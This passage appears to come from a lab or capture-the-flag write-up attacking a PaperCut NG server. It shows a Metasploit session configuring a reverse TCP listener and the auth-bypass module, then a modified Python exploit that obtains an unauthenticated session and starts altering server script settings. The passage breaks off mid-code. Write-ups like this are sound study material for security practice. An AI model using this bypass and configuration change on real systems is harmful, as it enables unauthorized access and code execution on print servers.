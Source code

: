 `use multi/http/papercut_ng_auth_bypass`

```
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set proxies http:10.129.54.74:3128
proxies => http:10.129.54.74:3128
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set lhost 10.10.15.52
lhost => 10.10.15.52
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set lport 4444
lport => 4444
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[-] Exploit failed: RuntimeError TCP connect-back payloads cannot be used with Proxies. Use 'set ReverseAllowProxy true' to override this behaviour.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set reverseallowproxy true
reverseallowproxy => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[*] Started reverse TCP handler on 10.10.15.52:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[-] Exploit aborted due to failure: not-vulnerable: Could not update server config option 'print-and-device.script.enabled' to value of 'Y'
[*] Exploit completed, but no session was created.

```

I modified one of the public exploit available to just update `print-and-device.script.enabled`

```
import argparse
import requests


def get_session_id(proxy):
    proxy = {"http": proxy}
    s = requests.Session()
    s.proxies.update(proxy)
    r = s.get(f'http://localhost:9191/app?service=page/SetupCompleted', verify=False)

    headers = {'Origin': f'http://localhost:9191'}
    data = {
        'service': 'direct/1/SetupCompleted/$Form',
        'sp': 'S0',
        'Form0': '$Hidden,analyticsEnabled,$Submit',
        '$Hidden': 'true',
        '$Submit': 'Login'
    }
    r = s.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)
    if r.status_code == 200 and b'papercut' in r.content and 'JSESSIONID' in r.headers.get('Set-Cookie', ''):
        print(f'[*] Papercut instance is vulnerable! Obtained valid JSESSIONID')
        return s
    else:
        print(f'[-] Failed to get valid response, likely not vulnerable')
        return None


def set_setting(session, setting, enabled):
    print(f'[*] Updating {setting} to {enabled}')
    headers = {'Origin': f'http://localhost:9191'}
    data = {
        'service': 'direct/1/ConfigEditor/quickFindForm',
        'sp': 'S0',
        'Form0': '$TextField,doQuickFind,clear',
```